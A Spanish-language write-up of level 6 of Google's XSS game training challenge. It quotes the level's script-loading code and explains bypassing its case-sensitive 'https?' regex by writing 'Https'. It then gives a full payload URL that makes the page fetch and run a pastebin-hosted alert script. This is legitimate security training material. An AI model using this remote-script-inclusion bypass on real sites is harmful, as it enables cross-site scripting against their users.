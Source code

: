 #[6/6]  Level 6: Follow the 🐇

#Mission Description

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

#Mission Objective

Find a way to make the application request an external file which will cause it to execute an alert(). 

# Write Up Iker 

Primero que nada vamos a mirar el código fuente de la página para analizar correctamente la prueba.

Observando la foto del index.html y su contenido parece que sólamente nos deja cargar los scripts de la carpeta **/static/gadget.js** que luego ejecuta el contenido en el navegador.

```javascript
getGadgetName() 
{ 
  return window.location.hash.substr(1) || "/static/gadget.js";
}
```

Además tiene un código que evita que se pueda cargar scripts desde una URL con el siguiente código:

```javascript
// This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
````

Aquí podemos pensar en dos maneras para ejecutar el código:
  - 1 Intentar modificar el contenido de ```/static/gadget.js```
  - 2 Intentar hacer un **Bypass** de la comprobación de obtener y ejecutar el script mediante una URL 

Vaya, vaya, vaya...se pone algo complicado...

Tras muchas vueltas, hemos elegido la segunda opción por la siguiente razón: **REGEX** y **CASE SENSITIVE**
¿Porque? Porque el Regex de la consulta sólamente verifica que la URL sea **"https?"**, es decir, que si ponemos **"Https?** o ****"hTtps?** o **"hTTps?** etc nos dejaría hacer el Bypass ya que el resultado no coincidiría y podríamos cargar el script desde una URL.

Ahora tenemos que conseguir conlgar nuestro script en alguna URL y montar la URL de la consulta para que pueda ejecutarla.
La mejor página para hacer esto es **www.pastebin.com**. Te permite escribir un código HTML, JavaScript, etc, colgarlo online y ponerle fecha de expiración.

Creamos el script de alerta en pastebin.com y copiamos la URL con el mensaje **ZASCA!**:

```javascript alert('ZASCA!') ```

En este caso hemos creado la siguiente URL: ``` https://pastebin.com/raw/ny1kd5mC```

Y tenemos la siguiente URL completa para pasarsela al navegador:

``` https://xss-game.appspot.com/level6/frame#https://pastebin.com/raw/ny1kd5mC ```

**ERROR**!!! Recordar el **REGEX** que es **CASE SENSITIVE** y que debemos cambiar algún parámetro del https

Ahora quedaría de esta forma (modificamos la **H** del principio del **https** a **MAYUSCULAS** así **Https**:

``` https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/ny1kd5mC ```

Nos muestra un cuadre de texto indicando que hemos pasado de nivel y completado el Juego de XSS de Google :)

Iker Burguera
